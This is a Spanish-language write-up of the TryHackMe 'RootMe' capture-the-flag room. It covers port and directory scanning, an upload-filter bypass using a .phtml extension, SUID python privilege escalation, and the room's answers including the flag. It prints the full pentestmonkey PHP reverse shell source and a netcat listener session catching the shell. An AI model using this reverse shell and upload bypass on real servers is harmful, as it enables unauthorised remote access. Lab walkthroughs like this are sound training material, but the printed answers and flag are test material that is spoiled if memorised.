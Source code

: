 Empezamos con la fase de reconocimiento:

``` bash
❯ sudo nmap -p- -Pn --min-rate 5000 10.10.31.200
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 16:57 CEST
Nmap scan report for 10.10.31.200
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

con esto ya podemos responder la primera pregunta de tryhackme:

**Scan the machine, how many ports are open?**
Respuesta: **2**

ecaneamos los servicios de los puertos en mas profundidad con nmap:

``` bash
❯ nmap -p22,80 -sCV 10.10.181.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 18:24 CEST
Nmap scan report for 10.10.181.31
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

y con este escaner contestamos mas preguntas de tryhackme:

**What version of Apache is running?** 
Respuesta: **2.4.29**
**What service is running on port 22?** 
Respuesta: **ssh**

hacemos una enumeracion de directorios con gobuster en el servicio http:

```bash
❯ gobuster dir -u http://10.10.181.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.181.31
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.181.31/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.181.31/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.181.31/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.181.31/panel/]
Progress: 30428 / 220561 (13.80%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 30478 / 220561 (13.82%)
===============================================================
Finished
===============================================================
```

obtenemos los directorios de :
/upload
/panel

este ultimo es la respuesta a la siguiente pregunta:

**What is the hidden directory?**
Respuesta: **/panel/**

en este directorio encontramos una funcionalidad para subir archivos por lo que vamos a intentar si subiendo una reverse shell en php nos lo interpreta:

![uploadRootMe.png](/img/uploadRootMe.png)

una herramienta para obtener una reverse shell es [revshells](https://www.revshells.com/):

utilizamos la opcion de la reverse shell de pentestMonkey:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'IP TARGET';
$port = NUM_PUERTO;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

cambiamos la ip target y num puerto para decuarlo a nuestro caso, con nano creamos el archivo php y lo subimos a la web:


![uploadFailrootme.png](/img/uploadFailrootme.png)

no lo tendremos tan facil, intentaremos cambiar la extension php a ver si alguna cuela:
en el directorio uploads vemos nuestras subidas:

![Shellrootme.png](/img/Shellrootme.png)

tras unos intentos en mi caso me funciono la subida con la extension .phtml
nos ponemos a la escucha en net cat y clickamos la shell subida.

Con esto obtenemos acceso:
```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.251.231] from (UNKNOWN) [10.10.181.31] 45778
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:52:21 up 30 min,  0 users,  load average: 0.00, 0.00, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ 
$ whoami
www-data
$ hostname
rootme
$ 
```

hacemos una busqueda a los permisos SUID y encontramos que tenemos SUID para el binario python:
vamos a la web de gtfobins para ver como elevar los privilegios y aplicamos el metodo:

![privrootme.png](/img/privrootme.png)

con esto obtenemos root.

por ultimo buscamos el archivo user.txt en el sistema y lo visualizamos para contestar a la ultima pregunta de tryhackme:
![flagrootme.png](/img/flagrootme.png)

**user.txt**
Respuesta: **THM{y0u_g0t_a_sh3ll}**

